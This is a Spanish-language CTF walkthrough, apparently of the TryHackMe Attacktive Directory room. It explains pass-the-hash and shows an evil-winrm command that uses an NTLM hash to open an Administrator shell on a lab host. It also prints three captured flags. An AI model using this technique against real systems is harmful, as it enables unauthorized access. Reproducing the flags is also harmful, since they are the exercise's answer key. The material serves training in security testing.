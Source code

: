### Pasar el Hash

Un ataque de Pasar el Hash (PTH) es una técnica en la que un atacante utiliza una contraseña con hash (específicamente, un hash NTLM) en lugar de la contraseña en texto plano para autenticarse en un sistema o servicio. El objetivo es evitar la necesidad de conocer la contraseña real utilizando directamente el valor del hash para suplantar la identidad del usuario legítimo.

Usando una herramienta llamada Evil-WinRM, ¿qué opción nos permitirá usar un hash?


### Evil WinRM
Podemos usar muchas herramientas para pasar el hash. Probemos Evil WinRM:

evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i 10.201.73.14 -u Administrator




┌──(kali㉿kali)-[~/Downloads/active]
└─$ evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i 10.201.73.14 -u Administrator
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 







*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 






*Evil-WinRM* PS C:\Users\backup\Desktop> type PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}




*Evil-WinRM* PS C:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> 








https://medium.com/@mickaelbenlolo/exploiting-the-weak-links-a-step-by-step-guide-to-attacking-a-vulnerable-active-directory-62a8c8b55770



https://medium.com/@fehzanvayani/oscp-tryhackme-attacktive-directory-e7039d34023d